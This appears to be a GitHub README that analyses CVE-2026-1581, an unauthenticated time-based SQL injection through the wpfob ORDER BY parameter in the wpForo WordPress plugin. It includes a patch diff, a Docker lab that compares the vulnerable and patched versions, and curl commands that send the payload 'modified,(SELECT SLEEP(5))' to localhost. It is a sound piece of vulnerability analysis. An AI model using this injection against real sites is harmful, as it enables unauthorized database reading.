










# CVE-2026-1581 — wpForo Forum (<= 2.4.14) Unauthenticated Time‑Based SQL Injection (ORDER BY)

[ภาษาไทย](README.th.md)

---

## Executive Summary

| Field | Detail |
|---|---|
| **CVE ID** | CVE-2026-1581 |
| **Plugin** | wpForo Forum |
| **Affected Versions** | <= 2.4.14 |
| **Patched Version** | 2.4.15 |
| **Vulnerability Type** | Unauthenticated Time-Based SQL Injection (ORDER BY) |
| **CVSS Score** | 7.5 (High) |
| **CVSS Vector** | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N |

* CVE-2026-1581 is an Unauthenticated Time-Based SQL Injection vulnerability in the wpForo Forum plugin (<= 2.4.14). The `wpfob` parameter is used in an `ORDER BY` clause with only text sanitization applied, allowing an unauthenticated attacker to inject arbitrary SQL expressions and read data from the database.

* The vendor fixed this in version 2.4.15 by replacing `sanitize_text_field()` with `wpforo_sanitize_orderby()`, which enforces a context-aware whitelist.

---

## Scope & Safety

* Run in localhost + Docker Compose only.

* The PoC is a time-based timing proof to demonstrate the difference between the vulnerable and patched versions.

* Do not use against any system without explicit authorization.

---

## Evidence at a Glance

* **Version proof:** The `/community/` page loads `/wp-content/plugins/wpforo/assets/js/frontend.js?ver=2.4.14` (vuln) vs `2.4.15` (patched).

* **Code proof:** `sanitize_text_field(WPF()->GET['wpfob'])` → `wpforo_sanitize_orderby(..., context, default)`

* **Behavior proof:** `wpfob=modified,(SELECT SLEEP(5))` causes ~5s delay on the vulnerable version; the patched version responds near baseline.

---

## What I Observed from the CVE Advisory

* The CVE advisory only states that this is a time-based SQL injection via the `wpfob` parameter, fixed in 2.4.15. At the time of analysis, no public PoC was available.

* This write-up was therefore built through **source code diffing** between 2.4.14 and 2.4.15, tracing the parameter from HTTP input through sanitization to the point where it is used to construct the SQL query — in order to understand the root cause and reproduce the issue.



---

## 1) Source‑Code Driven Analysis

### 1.1 Locating `wpfob`

Starting with a grep for `wpfob` in the source code, it was found that the **Recent** page takes the value directly from a `GET` parameter and assigns it as the `orderby` argument.



**Vulnerable (2.4.14)** — `themes/classic/recent.php`:

```text
  32 | $args['orderby']   = ( ! empty( WPF()->GET['wpfob'] ) ) ? sanitize_text_field( WPF()->GET['wpfob'] ) : 'modified';
  74 | $args['orderby']   = ( ! empty( WPF()->GET['wpfob'] ) ) ? sanitize_text_field( WPF()->GET['wpfob'] ) : 'created';
```

**Patched (2.4.15)** — same file, sanitizer replaced:

```text
  32 | $args['orderby']   = ( ! empty( WPF()->GET['wpfob'] ) ) ? wpforo_sanitize_orderby( WPF()->GET['wpfob'], 'topics', 'modified' ) : 'modified';
  74 | $args['orderby']   = ( ! empty( WPF()->GET['wpfob'] ) ) ? wpforo_sanitize_orderby( WPF()->GET['wpfob'], 'posts', 'created' ) : 'created';
```

> Why focus on `recent.php`?
> Because it is a triggerable route where `wpfob` is assigned directly to `$args['orderby']`.

---

### 1.2 Dataflow to SQL: `ORDER BY ...`

Once `$args['orderby']` is set, it flows into wpForo's query builder to construct the `ORDER BY` clause.

**ORDER BY concatenation (vuln 2.4.14)**

`classes/Topics.php`:



`classes/Posts.php`:



**Explanation**

* `sanitize_text_field()` only strips/cleans the string — it does not enforce a **whitelist** of allowed column names.
* Since `orderby` is concatenated directly into `ORDER BY <orderby>`, an attacker can inject arbitrary **SQL expressions** in the ORDER BY position.

Reference: https://developer.wordpress.org/reference/functions/sanitize_text_field/

---

### 1.3 Patch / Diff Highlights (2.4.14 → 2.4.15)

#### 1.3.1 Diff: `recent.php`

```diff
32c32
< 	$args['orderby']   = ( ! empty( WPF()->GET['wpfob'] ) ) ? sanitize_text_field( WPF()->GET['wpfob'] ) : 'modified';
---
> 	$args['orderby']   = ( ! empty( WPF()->GET['wpfob'] ) ) ? wpforo_sanitize_orderby( WPF()->GET['wpfob'], 'topics', 'modified' ) : 'modified';
74c74
< 	$args['orderby']   = ( ! empty( WPF()->GET['wpfob'] ) ) ? sanitize_text_field( WPF()->GET['wpfob'] ) : 'created';
---
> 	$args['orderby']   = ( ! empty( WPF()->GET['wpfob'] ) ) ? wpforo_sanitize_orderby( WPF()->GET['wpfob'], 'posts', 'created' ) : 'created';
```

#### 1.3.2 Diff: `wpforo.php`

```diff
1036c1036
< 					$args['orderby'] = sanitize_text_field( $get['wpfob'] );
---
> 					$args['orderby'] = wpforo_sanitize_orderby( $get['wpfob'], 'search', 'relevancy' );
1077c1077
< 					$args['orderby']   = ( ! empty( WPF()->GET['wpfob'] ) ) ? sanitize_text_field( WPF()->GET['wpfob'] ) : 'modified';
---
> 					$args['orderby']   = ( ! empty( WPF()->GET['wpfob'] ) ) ? wpforo_sanitize_orderby( WPF()->GET['wpfob'], 'topics', 'modified' ) : 'modified';
1153c1153
< 					$args['orderby']   = ( ! empty( WPF()->GET['wpfob'] ) ) ? sanitize_text_field( WPF()->GET['wpfob'] ) : 'created';
---
> 					$args['orderby']   = ( ! empty( WPF()->GET['wpfob'] ) ) ? wpforo_sanitize_orderby( WPF()->GET['wpfob'], 'posts', 'created' ) : 'created';
```

#### 1.3.3 New patch function: `wpforo_sanitize_orderby()`

Version 2.4.15 introduces a **context-aware whitelist** sanitizer that returns the default value if the input is not in the allowed list:



---

## 2) Lab Design (Vuln vs Patched)

### 2.1 Services in Docker Compose

* `wp_vuln` (WordPress + wpForo 2.4.14) → `http://localhost:8081`
* `wp_patched` (WordPress + wpForo 2.4.15) → `http://localhost:8082`
* `db_vuln` / `db_patched` (MariaDB)
* `seed_vuln` / `seed_patched` — uses `wp-cli` to install WordPress, install the plugin, create the `/community/` page with `[wpforo]` shortcode, configure permalinks, generate `.htaccess`, and create verification artifacts.

### 2.2 Test Route

From reading the source, `wpfob` is used explicitly on the **recent** page:

* `http://localhost:8081/community/recent/?view=opened`
* `http://localhost:8082/community/recent/?view=opened`

---

## 3) Reproduction: Timing Proof

At least 1 topic and 1 post must exist before testing.

### 3.1 Why "posts are required"

* This is an **ORDER BY injection** vulnerability.
* If wpForo has no topics or posts, the query may return 0 rows — in which case no sorting occurs on the DB side, the code path may not evaluate the `ORDER BY` expression, and **no delay is observed** — a false negative.

At least 1 topic and 1 post are required.

### 3.2 Baseline Timing

```bash
curl -sS -L -o /dev/null -w "baseline_vuln=%{time_total}\n" \
  "http://localhost:8081/community/recent/?view=opened"

curl -sS -L -o /dev/null -w "baseline_patched=%{time_total}\n" \
  "http://localhost:8082/community/recent/?view=opened"
```



### 3.3 Attack Timing

```bash
curl -sS -L -o /dev/null -w "attack_vuln=%{time_total}\n" \
  --get "http://localhost:8081/community/recent/" \
  --data-urlencode "view=opened" \
  --data-urlencode "wpfob=modified,(SELECT SLEEP(5))"

curl -sS -L -o /dev/null -w "attack_patched=%{time_total}\n" \
  --get "http://localhost:8082/community/recent/" \
  --data-urlencode "view=opened" \
  --data-urlencode "wpfob=modified,(SELECT SLEEP(5))"
```

**Expected**

* Vuln: `attack_vuln` ≈ `baseline_vuln + ~5s`
* Patched: `attack_patched` ≈ baseline (no delay)

### 3.4 Results



---

# Runbook — How to Build the Lab and Use the PoC (CVE-2026-1581)

## 1) Build the Lab (Vuln vs Patched)

### 1.1 Prerequisites

* Docker Desktop + Docker Compose v2
* Available ports: `8081` (vuln), `8082` (patched)

### 1.2 Required Files

* `docker-compose.yml`
* `scripts/seed-wp.sh`

### 1.3 Start the Lab

From the project folder:

```bash
docker compose up -d
```

### 1.4 Verify

Check that both instances are accessible:

* Vuln: `http://localhost:8081/community/`
* Patched: `http://localhost:8082/community/`

And the recent page:

* Vuln: `http://localhost:8081/community/recent/?view=opened`
* Patched: `http://localhost:8082/community/recent/?view=opened`





### 1.5 Seed Topics / Posts via wp-cli (lab use only)

Required for reproducibility and to prevent false negatives.

```bash
# 1) Check counts (vuln)
docker compose run --rm --entrypoint sh seed_vuln -lc '
cd /var/www/html
PREFIX=$(wp db prefix --allow-root)
wp db query "SELECT COUNT(*) AS topics FROM ${PREFIX}wpforo_topics;" --allow-root
wp db query "SELECT COUNT(*) AS posts  FROM ${PREFIX}wpforo_posts;"  --allow-root
'

# 2) Insert 1 topic and 1 post (vuln)
docker compose run --rm --entrypoint sh seed_vuln -lc '
set -eu
cd /var/www/html
PREFIX=$(wp db prefix --allow-root)
UID=$(wp user get admin --field=ID --allow-root)
FID=$(wp db query "SELECT forumid FROM ${PREFIX}wpforo_forums WHERE is_cat=0 ORDER BY forumid ASC LIMIT 1;" --skip-column-names --allow-root)

wp db query "INSERT INTO ${PREFIX}wpforo_topics (forumid, userid, title, slug, created, modified) VALUES (${FID}, ${UID}, \"Timing Test\", \"timing-test\", NOW(), NOW());" --allow-root
TID=$(wp db query "SELECT MAX(topicid) FROM ${PREFIX}wpforo_topics;" --skip-column-names --allow-root)

wp db query "INSERT INTO ${PREFIX}wpforo_posts (forumid, topicid, userid, title, body, created, modified, is_first_post) VALUES (${FID}, ${TID}, ${UID}, \"Timing Test\", \"Hello\", NOW(), NOW(), 1);" --allow-root
PID=$(wp db query "SELECT MAX(postid) FROM ${PREFIX}wpforo_posts;" --skip-column-names --allow-root)

wp db query "UPDATE ${PREFIX}wpforo_topics SET first_postid=${PID}, last_post=${PID}, posts=1, modified=NOW() WHERE topicid=${TID};" --allow-root

echo "seeded forumid=${FID} topicid=${TID} postid=${PID}"
'
```

For the patched instance, replace `seed_vuln` with `seed_patched`.

---

## 2) Using the PoC

### 2.1 Install Dependencies

Using a virtual environment is recommended:

```bash
python3 -m venv .venv
source .venv/bin/activate
pip3 install -U pip
pip3 install -r requirements.txt
```

### 2.2 Run the PoC

```bash
# vuln
python3 poc.py http://localhost:8081

# patched
python3 poc.py http://localhost:8082
```

### 2.3 PoC Output



---

## 3) Cleanup

```bash
docker compose down -v
```

---

## References

* NVD: https://nvd.nist.gov/vuln/detail/CVE-2026-1581
* Wordfence: https://www.wordfence.com/threat-intel/vulnerabilities/id/4c447dbb-f8fb-4b46-9c47-20ab7330bbaa?source=cve
